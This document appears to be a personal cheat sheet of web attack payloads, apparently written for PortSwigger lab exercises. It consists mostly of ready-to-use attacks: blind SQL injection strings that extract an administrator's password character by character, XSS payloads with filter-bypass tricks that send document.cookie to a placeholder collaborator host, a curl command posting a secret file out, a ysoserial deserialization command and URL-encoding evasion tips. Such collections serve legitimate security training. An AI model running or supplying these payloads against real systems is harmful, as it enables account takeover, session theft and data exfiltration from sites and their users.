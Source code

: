 # SQL Injection

```sql
-- In order by statment https://portswigger.net/support/sql-injection-in-the-query-structure
-- ASCII converts the characters to numbers
(CASE+WHEN(SELECT+ASCII(SUBSTRING(password,1,1))+FROM+users+where+username+%3d+'administrator')%3d97+THEN+AUTHOR+ELSE+TITLE+END)

-- Divides by 1 if true, 0 if not
-- Used when a number (int) was in front of the query
-- %2F = /, %2B = +, %2A = *, %2D = -
%2F(CASE+WHEN+(SELECT+SUBSTRING(password,1,1)+FROM+users+where+username+%3d+'administrator')%3d'a'+THEN+1+ELSE+0+END)
```

# XSS

```js
// No periods (.)
fetch(atob('<base64-of-your-colaborator>'), {method: 'POST', mode: 'no-cors', body:eval(atob('ZG9jdW1lbnQuY29va2ll'))})

// No parentheses
eval.call`${"fetch\x28'<your-collaborator>', {method: 'POST', mode: 'no-cors', body: document.cookie}\x29"}`
//  With base64 encoding
eval.call`${atob`YWxlcnQoMSk=`}`

// SVG to steal cookie
'"><svg/onload=fetch(`//<your-collaborator>/cookie?=${encodeURIComponent(document.cookie)}`)>
```

# Code Injection
```bash

# Curl file contents
curl -X POST <your-collaborator> -d @/home/carlos/secret

# Gzip and base64 ysoserial
java -jar ysoserial-all.jar CommonsBeanutils1 "CMD" | gzip | base64 -w0
```

# Obfuscation

## Double URL Encoding 
### The letter a = %2561
- %25 = % when decoded so it ends up as %61 which equals a
- To quickly do this in console:
  - Set the urlencoded string to a variable and use replace all:
    ```js
    // admin urlencoded is: %61%64%6d%69%6e
    > s = "%61%64%6d%69%6e"
    > s.replaceAll('%', '%25')
    // Outputs: %2561%2564%256d%2569%256e
    ```
